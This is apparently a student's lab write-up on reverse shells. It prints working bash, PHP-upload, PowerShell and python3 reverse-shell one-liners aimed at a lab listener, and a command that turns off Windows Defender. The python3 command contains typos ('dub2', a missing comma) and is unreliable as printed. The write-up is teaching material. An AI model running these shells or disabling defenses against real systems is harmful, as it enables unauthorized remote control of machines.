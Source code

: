 ### Overview
---------
This lab we were continuing to work with web shells, however we are now switching to reverse shells. We were first tasked with connecting to a machine called sec335-rocky and creating a reverse shell to connect to a netcat listener that was running. From there we were tasked with uploading a reverse shell to the pippen system that was exploited last week. Following this we were tasked with running a reverse shell on windows but had to first turn of windows defender to do this. Finally, we were tasked with creating a reverse shell using python3. I will go furth into detail on the techniques that I used to complete this lab below. 

### Reflection
------
This was my first time taking a dive into the world of reverse shells and it was a lot of fun and left me wanting more. I definetaly want to explore these more and I feel like it would be an incredibly useful tool to have under my belt later on. I was a little bit confused on how to create a reverse shell using a php as I have not explored how to use php much however, a few resouces online helped me understand that I was essentially using a bash script within a php script. Understanding this concept made everything much easier. 

### Bash Reverse Shell 
------
The first reverse shell that we used was a somewhat simple one just getting us warmed up for the rest of the lab. To start we ran a netcat listener on one terminal using the command `nc -nlvp 4449` meaing that we were listening on port 4449. On another terminal we first logged into our rocky system using ssh and then we ran the command `/bin/bash -i >& /dev/tcp/10.0.17.129/4449 0>&1`. The IP address in that command is the DHCP address of our host machine and the 4449 is the port that we specified when opening the netcat listener. From there we were connected and able to control the rocky machine from our host machine. 

### Uploading a Reverse Shell
------
For this part of the lab, we were tasked with uploading a reverse shell to the pippen server that we exploited last week. To do this, I first had to create the php script that would be uploaded. To do this I used the command in the section above and just built a very simple php script around that, this is what that looked like:

      <?php
      $output1 = exec("/bin/bash -i >& /dev/tcp/10.0.17.129/4449 0>&1");
      
As mentioned in the reflection I know very little php and would love to explore this further. Now with that created I had to login to the Pippen system using the FTP server that I am able to exploit with the anonymous user logon. Once logged in, I navigated to the upload directory and uploaded this script. From there I started another netcat listener using the same port as above. Once the netcat listener was running I navigated to the URL of the file that I uploaded on the pippen FTP server and was connected to the machine. 

### Powershell Reverse Shell
-------
For this task we had to run a reverse shell on our windows box that connected back to our linux box. To do this I needed to again start a netcat listener linsteing on port 4449. Then on the windows machine run run the command `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.17.129',4449); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.length)) -ne 0){;$data= (New-Object -TypeName System.Text.ASCIIENcoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` on the command prompt instead of powershell. However this will not work because Windows Defender blocks this. Reference the section below to turn it off and after disabling it the reverse shell will work. 

###### Turning off Windows Defender over Powershell
To disable Windows Defender simply run the command `Set-MpPreference -DisableRealTimeMonitoring $true` over Powershell. 

### Python3 Reverse Shell
-------
For this final task we were asked to create a reverse shell using python3 to be able to connect back to our linux machine from the rocky machine again. To do this I first had to again create a netcat listener on my linux machine and I was again listening on port 4449. From the we again had to ssh into the rocky machine and run the reverse shell. Below is the command that I used to run the reverse shell:

      python3 -c 'import socket; from subprocess import run; from os import dup2;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.17.150"4449));dub2(s.fileno(),0); dub2(s.fileno(),1); dub2(s.fileno(),2);run(["/bin/bash","-i"]);'
      
After running this I was again connected to the rocky machine through the netcat listener. 
      
